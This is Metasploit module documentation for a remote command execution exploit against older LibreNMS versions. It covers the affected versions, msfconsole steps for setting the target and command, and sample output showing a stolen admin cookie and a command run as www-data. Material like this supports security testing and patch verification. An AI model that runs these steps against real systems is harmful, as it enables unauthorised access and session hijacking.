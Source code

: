 [LibreNMS](http://www.librenms.org) is Community-based GPL-licensed network monitoring system 

## Vulnerable Application

You can get the application on its [github](https://github.com/librenms/librenms),
just make sure to get a version older than
[1205f12f10a87f50a9a9127ab3caea861bff91b9](https://github.com/librenms/librenms/commit/1205f12f10a87f50a9a9127ab3caea861bff91b9)

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/librenms_rce`
  4. Do: `set rport port`
  5. Do: `set rhost ip`
  6. Do: `set cmd id`
  7. Do: `exploit`
```
 msf exploit(librenms_rce) > run
[*] Getting admin cookie...
[*] Got admin cookie: PHPSESSID=nmvg7q21egmrbg2enf27tjplt4;
[*] Result of the command:
uid=33(www-data) gid=33(www-data) groups=33(www-data),996(librenms)
[*] Exploit completed, but no session was created.
msf exploit(librenms_rce) > 
```
  9. You should get the admin cookie, and the result of your command.

## Options

  **TARGETURI**

  TARGETURI by default is `/`, which is the common path for LibreNMS.
  
## Demonstration

```
msf > use multi/http/librenms_rce
msf exploit(librenms_rce) > set cmd id
cmd => id
msf exploit(librenms_rce) > set RHOST 192.168.0.18
RHOST => 192.168.0.18
msf exploit(librenms_rce) > set payload cmd/unix/generic 
payload => cmd/unix/generic
msf exploit(librenms_rce) > run

[*] Getting admin cookie...
[*] Got admin cookie: PHPSESSID=nmvg7q21egmrbg2enf27tjplt4;
[*] Result of the command:
uid=33(www-data) gid=33(www-data) groups=33(www-data),996(librenms)
[*] Exploit completed, but no session was created.
msf exploit(librenms_rce) > 
```
